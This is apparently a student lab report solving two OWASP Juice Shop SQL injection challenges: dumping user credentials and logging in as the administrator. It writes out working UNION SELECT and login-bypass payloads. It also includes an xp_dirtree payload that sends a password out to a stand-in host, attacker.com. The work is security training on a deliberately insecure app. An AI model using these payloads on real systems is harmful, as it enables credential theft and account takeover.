# 05_SQLi

This laboratory activity focuses on the practical exploitation of SQL injection vulnerabilities using the OWASP Juice Shop web application; an intentionally insecure platform designed for security training and awareness. 

This report will showcase two SQLi vulnerabilities.

## Tools

- OWASP Juice Shop (running from Docker image)
- Burp Suite Proxy v2025.12.14

## Challenge #1: User Credentials

> <cite>Description: Retrieve a list of all user credentials via SQL injection</cite>

Initially, inserting an sql payload into the id parameter of the tracking url was tried. 

```html
http://localhost:3000/#/track-result/new?id=db85-94de94ee97c543bb';%20declare%20@p%20varchar(1024);%20Example%20with%20Microsoft%20SQL%20Server%20syntax%20set%20@p%3D(SELECT%20password%20FROM%20users%20WHERE%20username%3D'Administrator');%20exec('master..xp_dirtree%22%2F%2F'%20@p%20'.attacker.com%2F%22')--

```

Burp was configured to intercept the traffic and once the request was received, it was forwarded to the Repeater tool to view the server's response. The results can be seen in the image below:



The request did not return the expected data but instead triggered a server side error. This error exposed internal implementation details, clearly showing that the backend is not using a traditional SQL database. Specifically, the error response references the MarsDB database.

A quick internet search shows that:

> <cite>*MarsDB is a Promise based lightweight database with MongoDB query syntax, written on ES6*</cite>

This information confirms that the affected endpoint uses a NoSQL backend with MongoDB query semantics. Since MongoDB does not support relational constructs such as UNION SELECT, this component cannot be exploited to retrieve user credentials stored in relational tables.

Therefore, if we want to complete the task, we need a different application endpoint: one backed by a SQL database and capable of accessing the users’ credential data.


The next idea was to try to intercept the GET request for the user profile. Adding an SQL payload to the end of the request returned a response with HTML code of the page. 

The SQL payload used was simply:

```html
%27%20ORDER%20BY%201--

which is the html encoded version of:

' ORDER BY 1--
```



As you can see this safely escapes our attempt. 

---

Further attempts were made to access UI and identity-related routes such as /profile, /rest/user/whoami, and /rest/user/change-password. These endpoints either returned static HTML, javascript data, or user objects and did not interact with the database in a way that would allow exploitation. 
Injection attempts in cookies, headers, and Javascript tokens were usually ignored or blocked, indicating a separation from database queries (which we wanted to exploit). 

Attention then shifted to other interesting routes observed during normal application use; specifically those that returned something like a list of items. 

Product-related endpoints such as /rest/products and /rest/products/:id/reviews were reachable and returned JSON arrays containing only catalog data, but were unrelated to user credentials.




The breakthrough came when testing the search functionality. The /rest/products/search endpoint accepted user input and returned database errors when malformed input was supplied. 
An SQLite error message revealed the full backend SQL query, confirming that the input had been concatenated into a ```LIKE '%…%'``` clause and executed directly by the database. 
This finally identified a real SQL injection point, disclosing the query structure, the database type (SQLite), and the execution context.



The error message basically exposed the query.

><cite>At this stage, we identified the correct attack surface which marked the transition from endpoint discovery to query structure analysis.</cite>

We now need a way to break out of the string context ``` LIKE '%....%' ```  and then we need to find the number of columns in ```SELECT * FROM Products```. This is a requirement for a UNION SELECT attack.

The specific SQL query we are trying to escape from is:

```sql
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%_ourInputHere_%' OR description LIKE '%_ourInputHere_%') AND deletedAt IS NULL) ORDER BY name"
```

This was achieved through some experimentation and by refreshing my knowledge of the Basi di Dati course. 

The result is:

```sql
"SELECT * FROM Products WHERE ((name LIKE '%banana%' OR description LIKE '%banana%') AND 1=1) UNION SELECT email, password, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM users -- %') AND deletedAt IS NULL) ORDER BY name"
```

Where the payload is:
```sql
banana%' OR description LIKE '%banana%') AND 1=1) UNION SELECT email, password, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM users -- 
```

Note that the number of columns was easy to find. Using a "normal" input as a search query we get:



From this we clearly see that the number of columns is 9. 

After URL encoding the payload we get:

```
banana%25%27%20OR%20description%20LIKE%20%27%25banana%25%27)%20AND%201%3D1)%20UNION%20SELECT%20email%2C%20password%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20users%20--%20
```

Using this as our new payload in the HTTP request, we get:




Note that we succeeded in exploiting the vulnerability even if the HTTP response appeared to be an error.
From this error we can infer that this is probably due to the backend of OWASP Juice Shop expecting query results to match the Products data model. 
The earlier UNION injection successfully accessed the users table and triggered the challenge detection logic on the backend, but eventually failed to the results probably because the returned columns did not match to the schema (e.g., a string value such as an email address being mapped to a numeric product ID field).

Once the injected UNION SELECT aligned its column order and data types with those expected by the Products model by modifying the payload to:

```
banana%25%27%20OR%20description%20LIKE%20%27%25banana%25%27)%20AND%201%3D1)%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20users%20--%20
```

the backend was able to process and display the desired data. 




## Challenge #2. Login Admin

> <cite>Description: Log in with the administrator’s user account</cite>

After gathering user's credentials in the first challenge the next logical step for logging in as the administrator was to find the email and password field of the admin. 


```c
"name":"admin@juice-sh.op","description":"0192023a7bbd73250516f069df18b500",
```

Just to confirm, logging in with this email address and password combination failed. This was expected, as the password is likely to be hashed, and the app probably does not treat password hashes as passwords by mistake.



Examining the login procedure's requests and responses, we can see that the authentication response indicates that users are identified with a token probably assigned by the server upon registering.
We will therefore focus on potential weaknesses in the registration process itself.

 

As can be clearly seen, the response follows a similar structure to that observed in the previous challenge. The server returns a set of structured user attributes as part of the response. 
This indicates that this data could be derived directly from backend query results.

Unfortunately, attempting to inject a payload during registration did not produce satisfactory results.



After spending "a few" minutes trying to provoke an error or an unexpected result, the focus was shifted back to the login form with the goal of provoking an error there.



><cite>Finally a nice error!</cite>

From the error it is clear that the backend is building a query of the following form:

```sql
SELECT * FROM Users WHERE email = '<input>' AND password = '<hash>' AND deletedAt IS NULL

```

Note that in the first challenge a list of all user emails and password hashes was gathered, including those of the admin. This enables the following payload to be created: 

```sql
admin@juice-sh.op' AND password = '0192023a7bbd73250516f069df18b500' AND deletedAt IS NULL -- 
```
Inserting this payload into the email field of the login form, along withanything in the password section (as this will be commented out it does not matter) allows us to log in as admin thus, solving the chalenge!



**Note** - we could also have not known the hash of the admin account. In this case we would manipulate the WHERE clause, to try to evaluate it to true. 

for example:

```sql
admin@juice-sh.op' AND 1=1 -- 
```
also solves the challenge.

Please note that, due to the form of the original backend query, we need to know the email address of the admin account in order to log in as admin using SQL injection.
In this case, the email was found while extracting data using SQL injection, but there may be easier ways. For example, by exploring the web page. 

In fact, the review of the first product in the web app comes from an admin account, the email address of which is clearly visible. 





